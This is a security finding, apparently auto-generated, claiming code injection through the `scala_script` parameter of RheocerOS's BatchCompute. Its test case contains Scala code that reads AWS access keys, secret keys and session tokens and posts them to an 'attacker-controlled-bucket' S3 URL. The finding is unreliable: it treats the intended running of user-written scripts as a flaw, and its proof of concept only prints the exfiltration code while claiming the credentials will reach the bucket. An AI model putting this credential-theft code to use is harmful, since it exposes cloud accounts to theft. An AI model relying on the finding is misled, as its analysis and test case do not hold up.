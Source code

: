 ### Vulnerability 1: Code Injection in BatchCompute scala_script

- **Description:**
    1. A threat actor can inject malicious Scala code into the `scala_script` parameter of a `BatchCompute` definition within a RheocerOS application.
    2. When the RheocerOS application is activated and a workflow containing this `BatchCompute` node is executed, the injected Scala code is passed to the AWS Glue or EMR environment for execution.
    3. The injected code is then executed with the privileges of the IAM role assumed by the RheocerOS application in the user's AWS account.

- **Impact:**
    - **Critical:** If successfully exploited, this vulnerability allows arbitrary code execution within the user's AWS environment with the permissions of the assumed IAM role. This could lead to:
        - Data exfiltration or modification in S3 or other AWS services accessible by the IAM role.
        - Unauthorized access to and control over AWS resources.
        - Denial of Service by consuming resources or disrupting services.
        - Lateral movement to other systems within the AWS environment if the IAM role has sufficient permissions.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - None. The code directly takes the `scala_script` string and executes it in the Glue/EMR environment without any sanitization or validation.

- **Missing Mitigations:**
    - **Input Sanitization and Validation:** Implement strict input validation and sanitization for the `scala_script` parameter to prevent injection of malicious code. Consider using a secure code editor or a limited DSL (Domain Specific Language) for Scala scripting if full Scala script execution is not necessary.
    - **Principle of Least Privilege:** Ensure that the IAM role assumed by RheocerOS applications has the minimum necessary permissions to perform its intended tasks. Avoid granting overly permissive roles like `AdministratorAccess`.
    - **Code Review and Security Audits:** Conduct thorough code reviews and security audits to identify and eliminate potential injection vulnerabilities.
    - **Sandboxing or Isolation:** Explore sandboxing or isolation techniques to limit the impact of potentially malicious code executed within `BatchCompute` nodes.

- **Preconditions:**
    - An attacker needs to be able to modify the RheocerOS application code, specifically the `scala_script` blocks in `BatchCompute` definitions. This could happen if:
        - The attacker has compromised the development environment where the RheocerOS application code is written.
        - The attacker is an authorized user who is intentionally injecting malicious code.
        - The application code is dynamically generated based on external input without proper sanitization (less likely in this framework based on current files).

- **Source Code Analysis:**
    1. **File: `/code/api/api_ext.py`**
    2. **Class: `BatchCompute`**
    3. **Method: `__init__`**
    4. The `BatchCompute` class in `/code/api_ext.py` takes `scala_script` as a parameter:
    ```python
    class BatchCompute(InternalDataNode.BatchComputeDescriptor):
        def __init__(
            self,
            scala_script: str = None, # <-- Injection point
            python_script: str = None,
            lang: Lang = Lang.PYTHON,
            abi: ABI = ABI.GLUE_EMBEDDED,
            external_library_paths: Sequence[str] = None,
            extra_permissions: List[Permission] = None,
            retry_count: int = 0,
            **kwargs,
        ) -> None:
    ```
    5. The `scala_script` parameter is directly passed to the `BatchCompute` object without any validation.
    6. **File: `/code/README.md`**
    7. The `README.md` shows examples of using `scala_script` in `BatchCompute` definitions:
    ```python
    BatchCompute(
        scala_script("""
            pdex
                .filter(...)
                .select(...)
                .distinct()
                """
            ),
        lang=Lang.SCALA,
        ...
    )
    ```
    8. **File: `/code/doc/user_guide/USER_GUIDE.md`**
    9. The user guide also highlights the usage of `scala_script` blocks in `BatchCompute` examples, reinforcing its intended use and making it a prime target for injection.
    10. **Conclusion:** The code analysis confirms that the `scala_script` parameter in `BatchCompute` is a direct injection point. The framework code does not include any input validation or sanitization for this parameter.

- **Security Test Case:**
    1. **Precondition:**
        - Access to a RheocerOS project code base.
        - An AWS account with permissions to deploy and run RheocerOS applications.
    2. **Vulnerability Injection:**
        - Modify an existing RheocerOS application code or create a new one.
        - In a `BatchCompute` definition, replace the existing `scala_script` with malicious code. For example, to exfiltrate environment variables to an attacker-controlled S3 bucket:
        ```python
        BatchCompute(
            scala_script("""
                import sys.process._
                val command = "aws configure get aws_access_key_id"
                val output = command.!!
                val command2 = "aws configure get aws_secret_access_key"
                val output2 = command2.!!
                val command3 = "aws configure get aws_session_token"
                val output3 = command3.!!
                val malicious_code = s\"\"\"
                    import java.net.URL;
                    import java.net.URLConnection;
                    import java.io.OutputStreamWriter;
                    import java.nio.charset.StandardCharsets;

                    def sendData(data: String): Unit = {
                        try {
                            val url = new URL("https://attacker-controlled-bucket.s3.amazonaws.com/exfiltrated_data.txt");
                            val connection = url.openConnection().asInstanceOf[URLConnection];
                            connection.setDoOutput(true);
                            val outputStreamWriter = new OutputStreamWriter(connection.getOutputStream(), StandardCharsets.UTF_8);
                            outputStreamWriter.write(data);
                            outputStreamWriter.close();
                            println("Data sent successfully")
                        } catch {
                            case e: Exception => println("Error sending data: " + e.getMessage)
                        }
                    }

                    sendData(s"AWS_ACCESS_KEY_ID:$output\\nAWS_SECRET_ACCESS_KEY:$output2\\nAWS_SESSION_TOKEN:$output3")
                \"\"\"
                malicious_code.linesIterator.foreach(line => println(line))
                """.stripMargin
            ),
            lang=Lang.SCALA,
            ...
        )
        ```
        - Replace `attacker-controlled-bucket` with an S3 bucket you control to capture exfiltrated data.
    3. **Application Activation and Execution:**
        - Activate the modified RheocerOS application.
        - Trigger the workflow containing the `BatchCompute` node with the malicious `scala_script`.
    4. **Verification:**
        - Check the attacker-controlled S3 bucket. If the vulnerability is successfully exploited, a file named `exfiltrated_data.txt` containing the AWS credentials of the IAM role used by the Glue job should be present in the bucket.
        - Examine the CloudWatch logs for the Glue job execution. The output of the injected Scala code, including the attempt to exfiltrate credentials, should be visible in the logs.

This vulnerability allows for critical impact and is not mitigated by the current project code. Missing mitigations include input sanitization, least privilege IAM roles, code review, and sandboxing. The preconditions for exploitation are relatively low, making this a high-priority security concern.